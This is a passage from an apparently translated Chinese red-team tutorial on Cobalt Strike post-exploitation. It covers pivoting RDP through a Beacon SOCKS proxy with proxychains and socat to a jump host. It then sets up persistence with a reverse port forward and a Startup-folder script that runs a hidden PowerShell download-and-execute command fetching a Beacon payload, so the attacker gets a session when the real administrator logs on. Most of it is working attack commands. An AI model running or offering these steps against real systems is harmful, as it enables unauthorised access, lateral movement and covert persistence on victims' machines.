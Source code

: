 

**四、RDP01**

****

现在，我们可以使用这些凭据通过RDP登录到跳转主机，提醒一下，我们的目标是直接在攻击主机上完成这个攻击过程。因此，我们先要在当前Beacon上搭建一个SOCKS代理服务。



```
beacon&gt; socks 1337 
[+] started SOCKS4a server on: 1337
```

通过SSH登录Teamserver，如果尚未安装socat以及proxychains，就安装这两个工具。

修改**proxychains.conf**配置文件，使用127.0.0.1地址以及1337端口。

通过**proxychains**运行socat：

```
proxychains socat TCP4-LISTEN:3389,fork TCP4:10.0.0.100:3389
```

这样一来，Teamserver会在3389端口上监听，所有访问该端口的流量会经过代理，被重定向10.0.0.100的3389端口。

注意：Beacon的SOCKS代理没有使用验证信息，因此请确保Teamserver的防火墙不会将相应端口暴露在整个互联网上。

现在，我们可以使用RDP协议访问Teamserver的IP地址，经过跳转后，最终登录的是跳转主机。

[![](https://p3.ssl.qhimg.com/t012139c0bed95b8c08.jpg)](https://p3.ssl.qhimg.com/t012139c0bed95b8c08.jpg)



**五、持久化**

****

现在我们已经能够访问这台服务器，我们需要设置持久化机制，以便“真正的”rastamouseadm用户登录时，我们能拿到一个SMB Beacon。

简单的操作步骤如下所示：

**创建一个stageless类型的PowerShell SMB Beacon载荷。**

**在Teamserver上的/smb路径托管这个payload。**

**在当前beacon中创建一个反弹型端口转发：**

```
rportfwd 8080 178.62.56.134 80
```

**使用如下内容创建启动脚本**，脚本路径为**C:Usersrasta_mouse_admAppDataRoamingMicrosoftWindowsStart MenuProgramsStartupstartup.bat**

```
powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://10.0.1.200:8080/smb'))"
```

**注销RDP会话**

备注：如果你可以在该服务器上提升权限、运行或注入到SYSTEM进程中，那么你不必依赖RDP会话来运行Beacon。
